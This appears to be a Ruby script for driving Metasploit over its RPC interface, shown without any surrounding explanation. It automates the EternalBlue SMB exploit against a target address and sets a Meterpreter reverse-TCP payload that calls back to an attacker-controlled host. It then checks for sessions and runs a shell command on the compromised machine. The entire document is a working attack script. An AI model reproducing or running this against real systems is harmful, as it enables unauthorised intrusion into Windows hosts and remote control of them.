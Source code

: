 #### Ruby Scripting for Metasploit

```ruby
#!/usr/bin/env ruby

require 'msfrpc-client'

# Connect to the Metasploit RPC server
client = Msf::RPC::Client.new(
  :user     => 'msf',
  :pass     => 'password',
  :host     => '127.0.0.1',
  :port     => 55553,
  :ssl      => true
)

# Get a console instance
console_id = client.call('console.create')['id']

# Execute commands
client.call('console.write', [console_id, "use exploit/windows/smb/ms17_010_eternalblue\n"])
client.call('console.write', [console_id, "set RHOSTS 192.168.1.100\n"])
client.call('console.write', [console_id, "set PAYLOAD windows/x64/meterpreter/reverse_tcp\n"])
client.call('console.write', [console_id, "set LHOST 192.168.1.200\n"])
client.call('console.write', [console_id, "exploit -j\n"])

# Wait for the command to complete
result = ""
while result !~ /Exploit running as background job/
  sleep(1)
  result = client.call('console.read', [console_id])['data']
  puts result if result.length > 0
end

# Check for sessions
sessions = client.call('session.list')
puts "Active sessions: #{sessions}"

# Interact with a session if available
if sessions.length > 0
  session_id = sessions.keys.first
  
  # Run commands on the session
  client.call('session.shell_write', [session_id, "whoami\n"])
  sleep(1)
  output = client.call('session.shell_read', [session_id])
  puts "Command output: #{output}"
end

# Clean up
client.call('console.destroy', [console_id])
```
